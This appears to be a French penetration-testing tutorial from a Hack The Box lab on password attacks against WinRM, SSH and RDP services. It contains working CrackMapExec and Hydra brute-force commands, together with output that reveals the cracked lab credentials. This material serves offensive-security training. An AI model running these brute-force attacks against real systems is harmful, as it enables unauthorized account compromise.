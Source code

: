 # Service Réseau

## Introduction

Au cours de nos tests d'intrusion, chaque réseau informatique que nous rencontrons disposera de services installés pour gérer, modifier ou créer du contenu. Tous ces services sont hébergés à l'aide d'autorisations spécifiques et sont attribués à des utilisateurs spécifiques. Outre les applications Web, ces services incluent (mais ne sont pas limités à) :

|           |       |             |
| --------- | ----- | ----------- |
| FTP       | SMB   | NFS         |
| IMAP/POP3 | SSH   | MySQL/MSSQL |
| RDP       | WinRM | VNC         |
| Telnet    | SMTP  | LDAP        |

## WinRM

La gestion à distance de Windows (WinRM) est l'implémentation Microsoft du protocole réseau Web Services Management Protocol (WS-Management). Il s'agit d'un protocole réseau basé sur des services Web XML utilisant le protocole SOAP (Simple Object Access Protocol) utilisé pour la gestion à distance des systèmes Windows. Il prend en charge la communication entre Web-Based Enterprise Management (WBEM) et Windows Management Instrumentation (WMI), qui peut appeler le Distributed Component Object Model (DCOM).

Cependant, pour des raisons de sécurité, WinRM doit être activé et configuré manuellement dans Windows 10. Par conséquent, cela dépend fortement de la sécurité de l'environnement dans un domaine ou un réseau local où nous voulons utiliser WinRM. Dans la plupart des cas, on utilise des certificats ou seulement des mécanismes d'authentification spécifiques pour augmenter sa sécurité. WinRM utilise les ports TCP 5985 (HTTP) et 5986 (HTTPS).

Un outil pratique que nous pouvons utiliser pour nos attaques par mot de passe est CrackMapExec, qui peut également être utilisé pour d'autres protocoles tels que SMB, LDAP, MSSQL et autres. Nous vous recommandons de lire la documentation officielle de cet outil pour vous familiariser avec celui-ci.

<hr>

## CrackMapExec
### **Installation de CrackMapExec**

Nous pouvons installer CrackMapExec via apt sur un hôte Parrot ou cloner le référentiel GitHub et suivre les différentes méthodes d'installation, telles que l'installation à partir de la source et éviter les problèmes de dépendance.

```
dsgsec@htb[/htb]$ sudo apt-get -y install crackmapexec
```

### CrackMapExec Protocol-Specific Help
Notez que nous pouvons spécifier un protocole spécifique et recevoir un menu d'aide plus détaillé de toutes les options qui s'offrent à nous. CrackMapExec prend actuellement en charge l'authentification à distance à l'aide de MSSQL, SMB, SSH et WinRM.
```
dsgsec@htb[/htb]$ crackmapexec smb -h

usage: crackmapexec smb [-h] [-id CRED_ID [CRED_ID ...]] [-u USERNAME [USERNAME ...]] [-p PASSWORD [PASSWORD ...]]
                        [-k] [--aesKey] [--kdcHost] [--gfail-limit LIMIT | --ufail-limit LIMIT | --fail-limit LIMIT]
                        [-M MODULE] [-o MODULE_OPTION [MODULE_OPTION ...]] [-L] [--options] [--server {http,https}]
                        [--server-host HOST] [--server-port PORT] [-H HASH [HASH ...]] [--no-bruteforce]
                        [-d DOMAIN | --local-auth] [--port {139,445}] [--share SHARE] [--gen-relay-list OUTPUT_FILE]
                        [--continue-on-success] [--sam | --lsa | --ntds [{drsuapi,vss}]] [--shares] [--sessions]
                        [--disks] [--loggedon-users] [--users [USER]] [--groups [GROUP]] [--local-groups [GROUP]]
                        [--pass-pol] [--rid-brute [MAX_RID]] [--wmi QUERY] [--wmi-namespace NAMESPACE]
                        [--spider SHARE] [--spider-folder FOLDER] [--content] [--exclude-dirs DIR_LIST]
                        [--pattern PATTERN [PATTERN ...] | --regex REGEX [REGEX ...]] [--depth DEPTH] [--only-files]
                        [--put-file FILE FILE] [--get-file FILE FILE]
                        [--exec-method {atexec,wmiexec,smbexec,mmcexec}] [--force-ps32] [--no-output]
                        [-x COMMAND | -X PS_COMMAND] [--obfs] [--clear-obfscripts]
                        [target ...]

positional arguments:
  target                the target IP(s), range(s), CIDR(s), hostname(s), FQDN(s), file(s) containing a list of
                        targets, NMap XML or .Nessus file(s)

optional arguments:
  -h, --help            show this help message and exit
  -id CRED_ID [CRED_ID ...]
                        database credential ID(s) to use for authentication
  -u USERNAME [USERNAME ...]
                        username(s) or file(s) containing usernames
  -p PASSWORD [PASSWORD ...]
                        password(s) or file(s) containing passwords
  -k, --kerberos        Use Kerberos authentication from ccache file (KRB5CCNAME)
```

### CrackMapExec Usage
```
dsgsec@htb[/htb]$ crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
```
```
dsgsec@htb[/htb]$ crackmapexec winrm 10.129.42.197 -u user.list -p password.list

WINRM       10.129.42.197   5985   NONE             [*] None (name:10.129.42.197) (domain:None)
WINRM       10.129.42.197   5985   NONE             [*] http://10.129.42.197:5985/wsman
WINRM       10.129.42.197   5985   NONE             [+] None\user:password (Pwn3d!)
```
L'apparition de (**Pwn3d!**) est le signe que nous pouvons très probablement exécuter des commandes système si nous nous connectons avec l'utilisateur brute-forcé. 
Un autre outil pratique que nous pouvons utiliser pour communiquer avec le service WinRM est Evil-WinRM, qui nous permet de communiquer efficacement avec le service WinRM.

<hr>

## SSH
Secure Shell (SSH) est un moyen plus sûr de se connecter à un hôte distant pour exécuter des commandes système ou transférer des fichiers d'un hôte vers un serveur. Le serveur SSH fonctionne par défaut sur le port TCP 22, auquel nous pouvons nous connecter à l'aide d'un client SSH. Ce service utilise trois opérations/méthodes de cryptographie différentes : le chiffrement symétrique, le chiffrement asymétrique et le hachage.

### Bruteforce - Hydra
#### SSH
Hydra est un outil permettant de faire du bruteforce sur plusieurs services différents, voici un exemple avec un bruteforce SSH

```
dsgsec@htb[/htb]$ hydra -L user.list -P password.list ssh://10.129.42.197

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-10 15:03:51
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 25 login tries (l:5/p:5), ~2 tries per task
[DATA] attacking ssh://10.129.42.197:22/
[22][ssh] host: 10.129.42.197   login: user   password: password
1 of 1 target successfully completed, 1 valid password found
```

#### RDP
```
dsgsec@htb[/htb]$ hydra -L user.list -P password.list rdp://10.129.42.197

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-10 15:05:40
[WARNING] rdp servers often don't like many connections, use -t 1 or -t 4 to reduce the number of parallel connections and -W 1 or -W 3 to wait between connection to allow the server to recover
[INFO] Reduced number of tasks to 4 (rdp does not like many parallel connections)
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 4 tasks per 1 server, overall 4 tasks, 25 login tries (l:5/p:5), ~7 tries per task
[DATA] attacking rdp://10.129.42.197:3389/
[3389][rdp] account on 10.129.42.197 might be valid but account not active for remote desktop: login: mrb3n password: rockstar, continuing attacking the account.
[3389][rdp] account on 10.129.42.197 might be valid but account not active for remote desktop: login: cry0l1t3 password: delta, continuing attacking the account.
[3389][rdp] host: 10.129.42.197   login: user   password: password
1 of 1 target successfully completed, 1 valid password found
```
